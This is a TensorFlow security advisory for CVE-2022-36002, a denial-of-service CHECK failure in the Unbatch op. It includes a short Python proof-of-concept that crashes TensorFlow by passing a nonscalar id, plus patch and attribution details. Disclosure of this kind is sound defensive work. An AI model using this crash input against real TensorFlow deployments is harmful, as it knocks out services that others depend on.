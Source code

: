 ## TFSA-2022-134: `CHECK` fail in `Unbatch`

### CVE Number
CVE-2022-36002

### Impact
When `Unbatch` receives a nonscalar input `id`, it gives a `CHECK` fail that can trigger a denial of service attack.
```python
import tensorflow as tf
import numpy as np
arg_0=tf.constant(value=np.random.random(size=(3, 3, 1)), dtype=tf.float64)
arg_1=tf.constant(value=np.random.randint(0,100,size=(3, 3, 1)), dtype=tf.int64)
arg_2=tf.constant(value=np.random.randint(0,100,size=(3, 3,  1)), dtype=tf.int64)
arg_3=47
arg_4=''
arg_5=''
tf.raw_ops.Unbatch(batched_tensor=arg_0, batch_index=arg_1, id=arg_2, 
                   timeout_micros=arg_3, container=arg_4, shared_name=arg_5)
```

### Patches
We have patched the issue in GitHub commit [4419d10d576adefa36b0e0a9425d2569f7c0189f](https://github.com/tensorflow/tensorflow/commit/4419d10d576adefa36b0e0a9425d2569f7c0189f).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by 刘力源, Information System & Security and Countermeasures Experiments Center, Beijing Institute of Technology.
